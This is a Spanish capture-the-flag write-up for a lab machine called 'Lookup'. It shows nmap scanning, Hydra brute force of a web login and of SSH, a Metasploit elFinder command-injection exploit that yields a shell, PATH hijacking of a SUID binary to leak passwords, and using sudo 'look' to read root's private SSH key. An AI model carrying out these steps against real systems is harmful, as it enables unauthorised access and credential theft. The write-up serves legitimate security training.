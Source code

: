 #  Lookup

## Configuracion del host'
Primero  entraremos a etc/hosts para configurar la ip junto con su dominio
![](0.png)
##  Inspección de la Red con Nmap

Comenzamos con un escaneo de la red para identificar los servicios activos en el dominio:

```bash
nmap -sS -sV 10.10.220.167 -oN resultado.txt
```

### Resultado de Nmap

Se identificaron dos servicios activos:
```
# Nmap 7.94SVN scan initiated Fri Feb 21 16:39:30 2025 as: /usr/lib/nmap/nmap --privileged -A -oN resultado.txt lookup.thm
Nmap scan report for lookup.thm (10.10.220.167)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

- **SSH (puerto 22)**
- **HTTP (puerto 80)**

---

## Acceso a la Página Web

Accedemos al servicio HTTP mediante el navegador y encontramos la siguiente pantalla de **login**:

![](extra.png)
Intentamos probar credenciales comunes y obtenemos un mensaje de **usuario o contraseña incorrecta**:
![](1.png)
Al analizar más a fondo con **Burp Suite**, encontramos que cuando se introduce un usuario válido, la respuesta cambia indicando **"Contraseña incorrecta"**, lo que permite la identificación de usuarios mediante fuerza bruta.
![](2.png)

---

## Ataque de Fuerza Bruta con Hydra

Configuramos **Hydra** para identificar usuarios válidos:

```bash
hydra -L usuarios.txt -p abc lookup.thm http-post-form "/login.php:username=^USER^&password=abc:F=Wrong password"
```

**Usuarios identificados:**

- `admin`
- `jose`

![](4.png)
Ahora, buscamos contraseñas para estos usuarios. Solo encontramos la contraseña de `jose`:
![](5.png)

---
## Explotación del Servicio elFinder

Nos autenticamos y accedemos al servicio **elFinder**. Tras inspeccionar su versión (`2.1.47`), encontramos que es vulnerable.

![](extra%202.png)
Utilizamos **Metasploit** para explotarlo:

```bash
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.6.17.22
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > exploit
```

![](6.png)

**Acceso conseguido como `www-data` en una shell restringida**:

![](7.png)

---

## Escalada de Privilegios - Parte 1

Revisamos `/etc/passwd` y encontramos que el usuario `think` tiene permisos interesantes:

![](8.png)

Buscamos archivos **SUID** para identificar posibles vías de escalamiento:

```bash
find / -perm -4000 -type f 2>/dev/null
```
![](9.png)
**Ejecutable identificado:** `/usr/sbin/pwm`

Al analizar su funcionamiento, descubrimos que permite recuperar **el historial de contraseñas** de usuarios.

![](10.png)

---

##  Obtención de la Contraseña de `think`

Creamos un archivo en `/tmp/id` y lo configuramos para obtener la contraseña de `think`:

```bash
echo "#!/bin/bash" > /tmp/id
echo "uid=33(think) gid=33(think) groups=(think)" >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

![](11.png)

 **Historial de contraseñas recuperado:**
Creamos un diccionario con estas contraseñas y usamos **Hydra** para atacar SSH:

```bash
hydra -l think -P pass ssh://lookup.thm
```

![](12.png)
**Credenciales obtenidas:**

- **Usuario:** `think`
- **Contraseña:** `josemario.AKA(think)`

Nos autenticamos en SSH:

```bash
ssh think@lookup.thm
```

 **Flag de usuario obtenida:**

```bash
cat user.txt
```


---

##  Escalada de Privilegios - Parte 2

Revisamos los permisos `sudo` del usuario `think`:

```bash
sudo -l
```

**Permiso especial detectado:**

```bash
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

![](14.png)

Usamos `look` para ver si hay una clave privada de SSH:

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
```

 **Clave privada obtenida:**

![](15.png)

La configuramos con permisos adecuados y accedemos como `root`:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```

 **Última flag obtenida:**

```bash
cat /root/root.txt
```


---

## **Conclusión**

- **Identificamos** servicios vulnerables con **Nmap**.
- **Descubrimos** usuarios válidos mediante **fuerza bruta con Hydra**.
- **Explotamos** el servicio **elFinder** con **Metasploit**.
- **Escalamos privilegios** explotando un **binario SUID (`pwm`)**.
- **Obtenemos acceso root** usando **sudo y el comando `look`**.

---
### 🏴‍☠️ Frase Inspiradora
> **"Si le das a un hacker un juguete nuevo, lo primero que hará es desmontarlo para ver cómo funciona."** – _Jamie Zawinski_